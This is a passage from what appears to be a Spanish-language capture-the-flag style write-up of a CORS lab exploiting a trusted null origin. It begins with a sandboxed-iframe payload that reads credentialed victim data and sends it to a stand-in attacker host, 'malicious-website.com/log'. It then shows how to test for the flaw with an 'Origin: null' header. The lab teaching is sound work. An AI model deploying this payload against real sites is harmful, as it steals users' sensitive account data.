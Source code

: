 ```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'vulnerable-website.com/sensitive-victim-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
      location = 'malicious-website.com/log?key=' + this.responseText;
    };
  </script>
"></iframe>
```

Si nos fijamos en la `petición` que se hace a `/accountDetails` cuando nos `logueamos`, veremos que el `servidor` nos `responde` con la cabecera `Access-Control-Allow-Credentials: true`. Esto `no lo hace vulnerable a CORS`, para que sea `vulnerable` tenemos que `ser capaces de controlar el origen de la petición`

![](/assets/img/CORS-Lab-2/image_5.png)

Para comprobar si podemos `manipular` el `origen` de la `petición` mandamos esta `petición` al `Repeater` y añadimos la cabecera `Origin: null`. Vemos que nos `responde` con la cabecera `Access-Control-Allow-Origin: null`

![](/assets/img/CORS-Lab-2/image_6.png)
